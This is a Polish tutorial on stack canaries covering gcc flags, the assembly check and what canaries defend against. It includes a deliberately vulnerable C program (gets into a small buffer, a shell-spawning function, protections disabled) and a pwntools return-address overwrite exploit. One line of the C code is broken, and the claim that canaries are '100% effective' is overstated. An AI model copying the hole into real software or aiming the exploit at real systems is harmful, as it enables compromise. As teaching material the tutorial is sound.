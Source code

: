 # Stack canary

### 1.1 Opis

Kanarek jest mechanizmem zabezpieczenia stosu. Stara się on zapobiegać zmianie wykonania programu za pomocą nadpisywanie elementów na stosie.

Stack canary albo security cookie to losowa wartość zapisywana na stosie przed adresem powrotu. Przed powrotem wartość ta jest sprawdzana. Jeżeli uległa zmianie przerywane jest działanie programu.

Wartości kanarka mogą być generowane w różny sposób. Mogą to być wartości zawierające elementy takie jak `null byte` czy `terminator chars`, aby zapobiegać nadpisaniu kanarka po nadpisaniu powrotu. W przypadku przepełnienia bufora zapisanie takich znaków jest dość trudne przy użyciu danych funkcji.

Dość popularną strategią jest generacja kanarka w losowy sposób przy inicjalizacji programu i zapis go w zmiennych globalnych. Oczywiście odczytanie takiego kanarka może być możliwe dlatego często jest on paddowany pustymi stronami.

Istnieją też tak zwane `XOR canaries`, czyli kanarki, których wartość to XOR paru losowo wybranych wartości z programu. Dzięki temu nadpisanie takiego kanarka graniczy z cudem.

Jest to defaultowa opcja kompilatora `gcc`, można ją wyłączyć flagą `-fno-stack-protector`. Ochronę funkcji z buforami większymi niż 8 bajtów i używającymi `alloca` włącza `-fstack-protector`. A ochronę wszystkich funkcji włącza `-fstack-protector-all`.

Podobnie zachowuje się `clang`.

Kanarek sprawdza się przeciwko atakom, które nadpisują adres powrotu - ataki typu `ret2libc`, `ropchain` są bezużyteczne bez znajomości kanarka. 

Kanarek nie chroni przed atakami typu `format string`.

### 1.2 Wygląd w assemblerze

Koniec wywołania funkcji z kanarkiem wygląda następująco.

![img_2.png](img/img_2.png)

Do rejestru `eax` ładowany jest aktualny kanarek funkcji. Następnie odejmowany jest on od zapisanego kanarka w `gs:0x14`. W przypadku zgodności kanarków wartość odejmowania to zero.

Wtedy ustawiana jest flaga zero i instrukcja `je` przeskakuję `call` do funkcji mówiącej o błędzie kanarka i wywołanie kończy się normalnie. W odwrotnym przypadku wywoływana jest funkcja, która obsługuje błąd.

### 1.3 Proof of concept - prosta zmiana wykonania

Kanarek jest dobra metodą obrony przed atakami typu `ASLR & PIE/exploit_1`. Ataki bazujące na nadpisaniu adresu powrotu są dobrze łatane przez kanarka stosu. Jest to lepsza metoda niż ASLR, bo w 100% skuteczna.

Oczywiście wyciek pamięci (`arbitrary read`) pozwala bardzo łatwo obejść kanarka po prostu nadpisując w jego miejsce odpowiednią wartość.

Kod aplikacji podatnej jest taki sam, jaki  i exploit.

- **PIE & ASLR**: wyłączony - opcje te pozwalają na stały adres funkcji - ułatwiają exploitacje.
- **CANARY**: wyłączony - jest to idea tego exploitu.

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void secret() {
    system("sh");
}

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    printf("Hi %s!\n", name);
}

int main()
{
a   sk_for_name();
return 0;
}
```

Exploit ten był już opisywany w poprzednich rozdziałach. Ładuje on pod adres powrotu adres funkcji `secret`

Exploit:
```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")


name = b'AAAABBBBCCCCDDDDEEEEFFFF' # inject aaaas till eip
name += b'\xc9\x61\x55\x56' 

p.sendline(name)

p.interactive()

```

W tym przypadku przy kompilacji bez kanarka udaje się dostać shell.

![img.png](img/img.png)

A w przypadku kompilacji z kanarkiem nie udaje się - widzimy tutaj błąd, który wyrzucił kanarek.

![img_1.png](img/img_1.png)


### 1.4 Proof of concept - atak na kanarka



### 1.5 Wnioski

Kanarek stosu jest dobrą metodą zabezpieczenia przed nadpisaniem adresu powrotu. Dobrą praktyką jest stosowanie go w funkcjach zawierających bufor.